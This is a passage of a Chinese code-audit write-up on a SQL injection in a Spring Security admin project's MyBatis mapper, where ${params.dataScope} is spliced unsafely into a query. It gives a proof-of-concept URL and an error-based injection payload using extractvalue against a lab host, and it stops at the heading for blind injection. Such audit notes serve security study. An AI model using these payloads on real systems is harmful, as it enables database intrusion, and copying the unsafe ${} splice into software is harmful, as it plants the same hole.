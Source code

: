 xml中的sql查询代码

```
    <select id="getFuzzyDept" resultType="com.codermy.myspringsecurityplus.admin.entity.MyDept">
        <include refid="selectDeptVo"/>
        <where>
            <if test="deptName != null and deptName != ''">
                AND d.dept_name like CONCAT('%', #{deptName}, '%')
            </if>
            <if test="status != null and status != ''">
                AND d.status = #{status}
            </if>
            <!-- 数据范围过滤 -->
            ${params.dataScope}
        </where>
        order by d.sort
    </select>
```

显然是`${params.dataScope}`参数进行了不安全的拼接，我们根据api构造poc

`http://172.16.42.151:8088/api/user?page=1&limit=10&params[dataScope]=1`

**尝试报错注入**

对`[]`进行url编码

```
http://172.16.42.151:8088/api/user?page=1&limit=10&params%5BdataScope%5D=and+extractvalue(1,concat(0x7e,(select+database()),0x7e))
```

<img src="../images/pics/代码审计/20.jpg"  />

这里其实已经注入成功了，只是做了错误处理，不返回结果，在控制台可以发现已经返回来数据库。

<img src="../images/pics/代码审计/21.jpg" style="zoom:50%;" />

那只能盲注了

**盲注**
